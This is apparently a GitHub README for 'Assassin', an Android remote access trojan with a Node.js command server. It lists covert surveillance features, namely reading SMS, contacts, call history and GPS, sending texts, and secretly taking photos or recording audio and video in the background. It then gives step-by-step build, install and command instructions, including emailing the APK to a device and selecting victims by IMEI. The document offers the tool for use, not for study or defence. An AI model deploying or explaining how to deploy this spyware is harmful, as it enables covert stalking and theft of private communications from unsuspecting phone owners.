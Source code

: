 # Assassin one of the  best Android RAT 
![assassin](https://cdn-std.dprcdn.net/files/acc_737120/k4ywpL)
---- 
- beta 1.0.0
- adapter android Lollipop-Pie
- commit issues to me 

# Construction
![assembleApk](https://cdn-std.dprcdn.net/files/acc_737120/1P2KVt)
# Features
- get Sms_List
- send Sms to destinationAddress
- get Calling_History
- get GPS
- get Contacts_List
---- 
#### something that u can do in background
- call someone  
- take a photo then send to server 
- record audio then send to server
- record video then send to server
</br>of course the duration decided by yourself

# Basement/Environment
- Gradle 
- JDK1.8
- AndroidSdk 
- node.js
- npm
# Usage
```
Options:
  -V, --version             output the version number
  -a,--assassin <assassin>  select a command post to the clients if you choose the shadow you should input the cmd -t to choose a type between pic/audio/video [sms,contacts,call,gps,shadow] (default: "sms")
  -C,--Clients              show every client info
  -d,--address <address>    input a phone num who you want to send a msg
  -m,--msg <msg>            you should write the msg content, if your command is sms
  -t,--type <type>          select a type between pic/audio/video and you should input the -l to choose the camera lens [pic,audio,video]
  -c,--client <client>      select a client to post the command
  -l,--lens <lens>          which camera lens that you want to open [0,1]
  -h, --help                output usage information
```
### *Step.1 clone/download the project  and start up the server*
```
1. git clone git@github.com:honglvt/TalentRAT.git / or download the project yourself on the github
2. cd the project path such as: ~/AndroidProject/ProjectPath/Server/
3. cd Server 
4. npm install
5. npm start
now you can see the terminal console "ASSASSIN"
```
### *Step.2 build assasin.apk with shell at project folder*
befor build the apk
- confrim that you have prepare the env for building the app
- connect the android device  to ur PC
- enable the develop mode on ur android device 
if you can not do *step.2* and *step.3*  you can build the *assassin.apk* and install it to your device manually 
now let's start assembleApk
```
at the first time when you download the project you should confirm your OS type mac or linux, 
and get your server IPAdress by "ifconfig/ipconfig" 
0.  chmod 777 ./assembleApk.sh
    chmod 777 ./installNewestApk.sh
1.  execute the assemble shell  "./assaembleApk.sh OS serverIP"        
    serverIP type as 127.0.0.1:3000   
    OS type as mac or linux
    as follows:
    "./assembleApk.sh mac 127.0.0.1:3000"
    "./assembleApk.sh linux localHost:3000"
2.  ./installNewestApk.sh
    if you are not able to connect the device to your PC, send the apk by email or xx and install it manually
3.  look at your device, the apk has been installed into your device
    run it 
    grant all of permissions 
    and now you can see { a user connected info }at terminal you have opened at Step.1
```
### *Step.3 execute command，then you will get whaterver you want!!!*
| cmd        |  ./assassin.js -a sms -c 9910294050493  |
| ---------- | :-----------:  |
| description| select the command between [sms,contacts,call,gps,shadow]  if you choose the shadow you should also use -t to choose a type between pic/audio/video|

#### ***args with -c can be gotten at server terminal {a user connected info}***
#### ***type the cmd into a new terminal at ~/project/Server***
and the result:
```
{
    "command": "send_contacts_list",
    "IMEI": "99001249798100"
}
response is : 
[{name:ASX,phoneNum:2345 67}]
```
### exemples
| cmd        | -a     |
| ---------- | :-----------:  | 
| description| select the command between [sms,contacts,call,gps,shadow]  if you choose the shadow you should also use -t to choose a type between pic/audio/video     | 
|  example   | ‘’./assassin.js -a sms‘’  ‘’ ./assassin.js -a shadow -t pic ‘’   | 
|  result   | ERROR:you should input a type with -c to choose a client that you want to send cmd    | 
----

| cmd        | -C     |
| ---------- | :-----------:  | 
| description| show every client info    | 
|  example   | ‘’./assassin.js -C ‘’   | 
|  result   | {IMEI:9525238415950202,brand:Nokia,model:CAL-20,version:9.0}   | 
----

| cmd        | -c     |
| ---------- | :-----------:  | 
| description| select a client with its IMEI to post the command    | 
|  example   | ‘’./assassin.js -a sms -c  9525238415950202 ‘’   | 
|  result   | { command: 'send_sms_list', IMEI: '184859203' }  | 
----

# Prompt

- keep node server alive when you send a command
- cmd with ./assassin.js will return a Json data  you can do whatever with the response 
- if you want to get a pic or video you should type the cmd as follow:
  - ./assassin.js -a shadow -c 123456 -t pic -l 0
  - then you can find the pic has saved on the */project/Server/public/images/xxxx.jpeg'
  - the same with other shadow
- the duration in recording video or audio decided by yourself

# Screen Shot
### server
![server](https://cdn-std.dprcdn.net/files/acc_737120/tKCGxc)
---
### assembleApk
![assembleApk](https://cdn-std.dprcdn.net/files/acc_737120/BtN0Eb)
---
### installApk
![installApk](https://cdn-std.dprcdn.net/files/acc_737120/qzZ6yC)
---
### client connect to server
![connect](https://cdn-std.dprcdn.net/files/acc_737120/7AfwLH)
---
### executeCmd
![executeCmd](https://cdn-std.dprcdn.net/files/acc_737120/ot6gOq)
